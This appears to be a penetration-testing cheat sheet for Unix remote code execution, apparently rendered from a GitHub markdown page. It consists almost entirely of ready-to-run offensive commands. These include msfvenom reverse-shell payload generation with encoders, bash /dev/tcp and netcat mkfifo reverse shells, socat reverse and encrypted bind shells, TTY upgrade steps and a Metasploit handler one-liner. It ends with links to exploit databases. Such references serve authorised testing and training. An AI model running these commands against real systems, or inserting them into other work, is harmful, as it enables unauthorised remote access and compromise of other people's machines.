 # Unix Remote Code Execution

## msfvenom

Shell File

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

Java Code

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

Shell Code

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "<badchars>"
```

Encoders

``` bash
msfvenom  --list encoders
```

## Bash Reverse Shell

> Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash

``` bash
/bin/sh -c 'sh -i > /dev/tcp/myip/443 0>&1 &'
```

``` bash
/bin/sh -c 'sh -i >& /dev/tcp/myip/443 0>&1'
```

``` bash
/bin/bash -c 'bash -i >& /dev/tcp/myip/443 0>&1'
```

``` bash
/bin/sh -c '0<&60-;exec 60<>/dev/tcp/myip/443;sh <&60 >&60 2>&60'
```

## Netcat Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Unix machine

``` bash
nc -nv 192.168.11.130 443 -e /bin/sh
```

> Netcat OpenBsd

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc myip 443 >/tmp/f
```

> Netcat BusyBox

```
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc myip 443 >/tmp/f
```

## Socat Reverse Shell

Kali machine

``` bash
socat -d -d TCP4-LISTEN:443 STDOUT
```

Unix machine

``` bash
socat TCP4:192.168.11.130:443 EXEC:/bin/sh
```

## Socat Encrypted Bind Shell

Create credential

``` bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 999 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

Unix machine

``` bash
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/sh
```

Kali machine

``` bash
sudo socat OPENSSL:192.168.11.130:443,verify=0
```

## Nmap NSE Scripts Exploit

``` bash
cd /usr/share/nmap/scripts
grep Exploits *.nse
nmap --script-help=clamav-exec.nse
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```

``` bash
stty -a
```

``` bash
stty rows 41 columns 172
```

## msfconsole multi handler

``` bash
sudo msfconsole -x "use exploit/multi/handler; set RHOST ip; set PAYLOAD windows/shell_reverse_tcp; set LHOST tun0; exploit"
```

``` bash
processing AutoRunScript 'post/windows/manage/migrate'
```

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">PayloadsAllTheThings</a>

## Exploit Resources

=== "Online"

	[Exploit Database]( https://www.exploit-db.com)

	[SecurityFocus]( https://www.securityfocus.com)

	[Packet Storm](https://packetstormsecurity.com)

	[Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

=== "Offline"

	SearchSploit

	Metasploit Framework

	BeEF
